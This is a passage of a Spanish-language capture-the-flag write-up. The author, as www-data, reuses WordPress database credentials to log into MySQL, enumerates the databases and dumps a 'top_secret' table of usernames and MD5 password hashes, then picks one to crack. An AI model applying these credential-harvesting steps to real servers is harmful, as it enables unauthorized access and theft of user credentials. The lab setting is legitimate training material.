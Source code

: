 ```bash
define( 'DB_COLLATE', '' );
...
...
```
Muy bien, tenemos el usuario y contraseña para entrar al **MySQL**.

Probémoslos:
```bash
www-data@TheHackersLabs-Thefirstavenger:/var/www/html/wp1$ mysql -u wordpress -p -h localhost
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
...
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
mysql>
```
Entramos.

Veamos qué bases de datos existen:
```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| performance_schema |
| top_secret         |
| wordpress          |
+--------------------+
4 rows in set (0.00 sec)
```
Hay una base de datos curiosa llamada **top_secret**.

Vamos a cargarla y a ver sus tablas:
```bash
mysql> use top_secret;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------------+
| Tables_in_top_secret |
+----------------------+
| avengers             |
+----------------------+
1 row in set (0.00 sec)
```
Solamente hay una tabla.

Veamos su contenido:
```bash
mysql> select * from avengers;
+----+--------------+------------+----------------------------------+
| id | name         | username   | password                         |
+----+--------------+------------+----------------------------------+
|  1 | Iron Man     | ironman    | cc20f43c8c24dbc0b2539489b113277a |
|  2 | Thor         | thor       | 077b2e2a02ddb89d4d25dd3b37255939 |
|  3 | Hulk         | hulk       | ae2498aaff4ba7890d54ab5c91e3ea60 |
|  4 | Black Widow  | blackwidow | 022e549d06ec8ddecb5d510b048f131d |
|  5 | Hawkeye      | hawkeye    | d74727c034739e29ad1242b643426bc3 |
|  6 | Steve Rogers | steve      | 723a44782520fcdfb57daa4eb2af4be5 |
+----+--------------+------------+----------------------------------+
6 rows in set (0.01 sec)
```
Parecen ser **hashes MD5** y el único que nos interesa es el de **steve**.
